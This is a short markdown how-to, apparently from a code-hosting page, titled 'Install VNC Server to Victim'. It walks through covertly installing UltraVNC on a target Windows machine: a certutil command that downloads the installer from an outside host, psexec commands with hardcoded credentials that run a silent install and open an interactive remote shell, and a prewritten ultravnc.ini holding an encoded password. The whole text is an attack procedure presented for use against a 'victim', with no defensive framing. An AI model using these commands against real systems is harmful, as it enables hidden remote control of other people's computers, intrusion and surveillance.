 # Install VNC Server to Victim

You can remotely view or control the victim computer using the UltraVNC tool. For this, follow the steps below.

## Step 1: Download UltraVNC setup

Download the current version of ultravnc from the website to your computer and rename it to uvncsetup.exe.

## Step 2: Copy uvncsetup.exe to victim computer

Copy the unvcsetup.exe file to the victim's computer's system disk. You can use path '\\victim\c$\' to browse victim computer. If for some reason you cannot view the victim computer, you can also download via the remote shell (psexec) with the following command.

> certutil.exe -urlcache -split -f "https://www.uvnc.eu/download/1240/UltraVNC_1_2_40_X86_Setup.exe" uvncsetup.exe

## Step 3: Start installation 

To start silent installation on victim computer run 'uvncsetup.exe' as remotely using PsExec.exe below:

> psexec \\victim -u admin -p admin0 -h -i -c C:\uvncsetup.exe /SP- /VERYSILENT /SUPPRESSMSGBOXES /NOCANCEL /NORESTART /CLOSEAPPLICATIONS /FORCECLOSEAPPLICATIONS /LOGCLOSEAPPLICATIONS /RESTARTAPPLICATIONS /NOICONS /FIREWALL /NOVIEW /COMPONENTS="ultravnc_server" /TASKS="installservice" /DIR="%programfiles%\uvnc"

The inno setup parameters above allow the installation to complete silently. The installation files are saved in the %program files%\uvnc directory on victim computer.

## Step 4: Define new password 

Create the ultravnc.ini file with the password defined in the "%programfiles%\uvnc" of the victim computer. 
UltraVNC password is "admin0" defined in ultravnc.ini. The ini file content is below:

[ultravnc]
passwd=56B6ACA18D1BA76008
passwd2=56B6ACA18D1BA76008

Copy the file to "%programfiles%\uvnc" folder on victim computer.

## Step 5: Restart the service

restart the service for the password to take effect. To restart the service open an interactive remote shell to victim computer below:

> psexec \\victim -u admin -p admin0 -h -i cmd.exe

And run below command over remote shell:

> net start uvnc_service